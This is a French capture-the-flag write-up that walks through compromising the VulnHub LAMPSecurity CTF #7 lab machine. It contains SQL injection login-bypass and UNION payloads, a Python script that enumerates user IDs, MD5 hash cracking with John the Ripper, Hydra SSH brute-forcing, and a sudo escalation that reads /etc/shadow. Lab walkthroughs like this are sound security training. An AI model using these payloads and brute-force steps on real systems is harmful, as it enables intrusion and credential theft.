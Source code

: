 ```yaml
---
title: "Solution du LAMPSecurity CTF #7 de VulnHub"
tags: [CTF,VulnHub]
---
```


Introduction
------------

Voici la solution [du CTF LAMPSecurity numéro 7](http://vulnhub.com/entry/lampsecurity-ctf7,86/). La VM est une image d'un système *CentOS* 6.3.  

Frankie Goes to Pwnywood
------------------------

```plain
Starting Nmap 6.46 ( http://nmap.org ) at 2014-07-16 08:25 CEST
Nmap scan report for 192.168.1.60
Host is up (0.00018s latency).
Not shown: 65526 filtered ports
PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 5.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 41:8a:0d:5d:59:60:45:c4:c4:15:f3:8a:8d:c0:99:19 (DSA)
|_  2048 66:fb:a3:b4:74:72:66:f4:92:73:8f:bf:61:ec:8b:35 (RSA)
80/tcp    open   http        Apache httpd 2.2.15 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Mad Irish Hacking Academy
137/tcp   closed netbios-ns
138/tcp   closed netbios-dgm
139/tcp   open   netbios-ssn Samba smbd 3.X (workgroup: MYGROUP)
901/tcp   open   http        Samba SWAT administration server
| http-auth: 
| HTTP/1.0 401 Authorization Required
|_  Basic realm=SWAT
|_http-title: 401 Authorization Required
5900/tcp  closed vnc
8080/tcp  open   http        Apache httpd 2.2.15 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 302)
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Admin :: Mad Irish Hacking Academy
|_Requested resource was /login.php
10000/tcp open   http        MiniServ 1.610 (Webmin httpd)
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Login to Webmin
| ndmp-version: 
|_  ERROR: Failed to get host information from server
MAC Address: 00:0C:29:9D:12:A9 (VMware)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.0 - 3.9
Network Distance: 1 hop

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.5.10-125.el6)
|   Computer name: localhost
|   NetBIOS computer name: 
|   Domain name: 
|   FQDN: localhost
|_  System time: 2014-07-01T09:08:59-04:00
| smb-security-mode: 
|   Account that was used for smb scripts: <blank>
|   User-level authentication
|   SMB Security: Challenge/response passwords supported
|_  Message signing disabled (dangerous, but default)
|_smbv2-enabled: Server doesn't support SMBv2 protocol
```

Sur le port 80 se trouve un site fait avec *Bootstrap*... ce qui fait que l'on a l'impression de connaître le site avant même de l'avoir visité :p  

En haut de la page il y a un formulaire *"Sign in"* avec les champs username et password.  

La page retourne une erreur sql bavarde si on rentre **"'** comme nom d'utilisateur :  

```plain
Invalid query: You have an error in your SQL syntax;
check the manual that corresponds to your MySQL server version for the right syntax to use near ''" and password = md5("")' at line 1
Whole query: select username, user_id from users where username = ""'" and password = md5("")
```

Il semble qu'il soit alors possible de bypasser l'authentification en modifiant la requête SQL.  

Ainsi avec le nom d'utilisateur **" or 1;#** on se retrouve connecté en tant que *test@nowhere.com*.  

Il est alors possible d'accéder à des profils utilisateurs via des urls de la forme */profile&id=113*.  

Un petit script Python suffit à extraire les utilisateurs existants en cherchant les IDs entre 0 et 500.  

```python
#!/usr/bin/python
import requests

sess = requests.session()

for i in range(0, 500):
    url = "http://192.168.1.60/profile&id=" + str(i)
    r = sess.get(url)
    if 'mailto:"' not in r.content:
        print "id =", i, r.content.split("mailto:")[1].split('"')[0]
```

Le résultat obtenu est le suivant :  

```plain
id = 3 brian@localhost.localdomain
id = 4 john@localhost.localdomain
id = 5 alice@localhost.localdomain
id = 6 ruby@localhost.localdomain
id = 7 leon@localhost.localdomain
id = 8 julia@localhost.localdomain
id = 9 michael@localhost.localdomain
id = 10 bruce@localhost.localdomain                                                                                                                                                                            
id = 11 neil@localhost.localdomain                                                                                                                                                                             
id = 12 charles@localhost.localdomain                                                                                                                                                                          
id = 36 foo@bar.com                                                                                                                                                                                            
id = 113 test@nowhere.com
```

Vu que l'email utilisateur s'affiche dans la page une fois connecté, il doit être aussi possible d'utiliser une UNION pour faire afficher les passwords de l'utilisateur.  

Et... oui ! si on rentre **" union select password, 0 from users where user\_id=3;#** on obtient le hash du mot de passe de *Brian*.  

Comme il y a peu d'utilisateurs on peut se permettre de faire une énumération manuelle. Après quelques temps on a les hashs suivants :  

```plain
brian:e22f07b17f98e0d9d364584ced0e3c18
john:0d9ff2a4396d6939f80ffe09b1280ee1
alice:2146bf95e8929874fc63d54f50f1d2e3
ruby:9f80ec37f8313728ef3e2f218c79aa23
leon:5d93ceb70e2bf5daa84ec3d0cd2c731a
julia:ed2539fe892d2c52c42a440354e8e3d5
michael:9c42a1346e333a770904b2a2b37fa7d3
bruce:3a24d81c2b9d0d9aaf2f10c6c9757d4e
neil:4773408d5358875b3764db552a29ca61
charles:b2a97bcecbd9336b98d59d9324dae5cf
foo:4cb9c8a8048fd02294477fcb1a41191a
test:098f6bcd4621d373cade4e832627b4f6
```

Ça ne fait pas long feu avec une bonne wordlist :  

```plain
$ /opt/jtr/john --wordlist=mega_dict.txt --format=raw-md5 hash.txt 
Loaded 12 password hashes with no different salts (Raw MD5 [128/128 AVX intrinsics 12x])
changeme         (foo)
chuck33          (charles)
madrid           (julia)
my2cents         (brian)
qwer1234         (leon)
somepassword     (michael)
test             (test)
turtles77        (alice)
guesses: 8  time: 0:00:00:02 DONE (Wed Jul 16 13:28:15 2014)
```

Testons ces identifiants sur le serveur SSH. Ici pas question de les faire à la mano.  

```plain
$ ./hydra -L users.txt -P passwords.txt -e nsr ssh://192.168.1.60
Hydra v8.0 (c) 2014 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2014-07-16 13:30:27
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 88 login tries (l:8/p:11), ~0 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 192.168.1.60   login: brian   password: my2cents
[22][ssh] host: 192.168.1.60   login: leon   password: qwer1234
[22][ssh] host: 192.168.1.60   login: julia   password: madrid
[22][ssh] host: 192.168.1.60   login: michael   password: somepassword
[22][ssh] host: 192.168.1.60   login: charles   password: chuck33
[22][ssh] host: 192.168.1.60   login: alice   password: turtles77
[STATUS] attack finished for 192.168.1.60 (waiting for children to finish) ...
1 of 1 target successfully completed, 6 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-07-16 13:30:43
```

La vie de Brian
---------------

*Brian* a tous les droits et on le remercie :  

```plain
[brian@localhost ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for brian: 
Matching Defaults entries for brian on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brian may run the following commands on this host:
    (ALL) ALL
[brian@localhost ~]$ sudo su
[root@localhost brian]# head -1 /etc/shadow
root:$6$C85VH0UQ$ZFydP2qmc0DTBfK5x4UL9658RDdF/cAzRtRFv6SB7ctovLeEPV6BOzimsGtCQOYbQOXbH4Ek2FN4a0Lrsymb/0:15698:0:99999:7:::
```

Au passage on trouve d'autres mots de passe dans le fichier *.mysql\_history* de root :  

```plain
update users set password=md5('my2cents') where user_id = 3;
update users set password=md5('transformersrule') where user_id = 4;
update users set password=md5('turtles77') where user_id = 5;
update users set password=md5('qwer1234') where user_id = 7;
update users set password=md5('madrid') where user_id = 8;
update users set password=md5('somepassword') where user_id = 9;
update users set password=md5('LosAngelesLakers') where user_id = 10;
update users set password=md5('Jets4Ever') where user_id = 11;
update users set password=md5('chuck33') where user_id = 15;
update users set password=md5('chuck33') where user_id = 12;
```

Un goût de trop peu ?

*Published July 21 2014 at 22:09*

